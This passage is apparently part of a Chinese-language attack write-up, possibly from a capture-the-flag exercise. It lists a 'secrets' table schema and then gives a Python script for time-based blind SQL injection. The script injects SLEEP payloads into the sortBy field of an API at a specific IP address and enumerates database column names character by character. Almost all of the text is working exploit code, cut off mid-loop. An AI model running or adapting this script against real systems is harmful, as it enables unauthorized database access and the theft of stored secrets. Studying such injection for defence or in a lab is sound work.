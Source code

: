 ```
secrets表结构:
  1. id
  2. secret_key
  3. description
```



### 脚本2：查看 products 表结构

```
import requests
import time

def test_sqli(payload):
    url = "http://113.45.189.144:5000/api/developer_utils/sorted_query"
    data = {
        "query": "%",
        "sortBy": f"name,IF({payload},SLEEP(5),1)",
        "order": "asc"
    }
    start = time.time()
    try:
        r = requests.post(url, json=data)
        elapsed = time.time() - start
        return elapsed > 4.5
    except:
        return False

def get_column_count(table_name):
    """获取指定表的列数"""
    print(f"正在枚举{table_name}表的列数...")
    for count in range(1, 11):
        payload = f"(SELECT COUNT(*) FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}')={count}"
        if test_sqli(payload):
            print(f"{table_name}表有 {count} 列")
            return count
    return 0

def get_column_name(table_name, column_index):
    """获取指定表的指定索引的列名"""
    print(f"正在枚举{table_name}表第{column_index+1}列的名称...")
    
    # 先获取列名长度
    length = 0
    for len_val in range(1, 51):
        payload = f"LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}' LIMIT {column_index},1))={len_val}"
        if test_sqli(payload):
            length = len_val
            print(f"第{column_index+1}列名长度为: {length}")
            break
    
    if length == 0:
        return ""
    
    # 逐字符枚举列名
    column_name = ""
    for pos in range(1, length + 1):
        for ascii_val in range(32, 127):
            payload = f"ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}' LIMIT {column_index},1),{pos},1))={ascii_val}"
            if test_sqli(payload):
```